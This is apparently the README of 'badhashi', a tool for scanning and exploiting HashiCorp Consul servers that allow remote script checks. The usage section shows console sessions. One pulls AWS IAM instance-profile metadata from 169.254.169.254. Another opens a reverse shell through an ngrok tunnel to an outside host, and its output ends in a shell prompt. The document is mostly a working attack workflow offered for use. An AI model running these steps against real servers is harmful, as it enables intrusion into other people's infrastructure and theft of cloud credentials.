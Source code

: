 # badhashi
Scanning / Exploiting vulnerable hashicorp tools

![](https://github.com/grines/hashiscan/blob/main/badhashi.gif)

# Features Consul
- [X] AWS Meta data extraction
- [X] Status (Check if vulnerable
- [X] Reverse shell
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# Features Nomad (Coming soon)
- [ ] AWS Meta data extraction
- [ ] Status (Check if vulnerable
- [ ] Reverse shell ( Raw_exec/ exec / docker)
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# How
Start ngrok
./ngrok tcp 9000

```console
Connected <http://127.0.0.1:8500>$ check status
DisableRemoteExec: true
EnableRemoteScriptChecks: true
NodeName: mini.hsd1.wa.comcast.net
Version: 1.9.3
Server: true
```

Connected <http://127.0.0.1:8500>$ exploit metadata
----
Check Registered
Waiting for command to register...
ID: Test
HTTP GET http://169.254.169.254/latest/meta-data/iam/info: 200 OK Output: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-25T06:15:20Z",
  "InstanceProfileArn" : "arn:aws:iam::*************************************",
  "InstanceProfileId" : "AIPA2LE*************"
}
Check Deregistered
---

(cmd ngrok-host ngrok-port local-port) ** can replace ngrok with external ip.
Connected <http://127.0.0.1:8500>$ exploit shell 2.tcp.ngrok.io 18563 9000
----
Check Registered
Waiting for callback...
2021/02/24 23:16:21 Listening on localhost:9000
Check Deregistered
---
Client 127.0.0.1:51771 connected.
bash-$: whoami
brian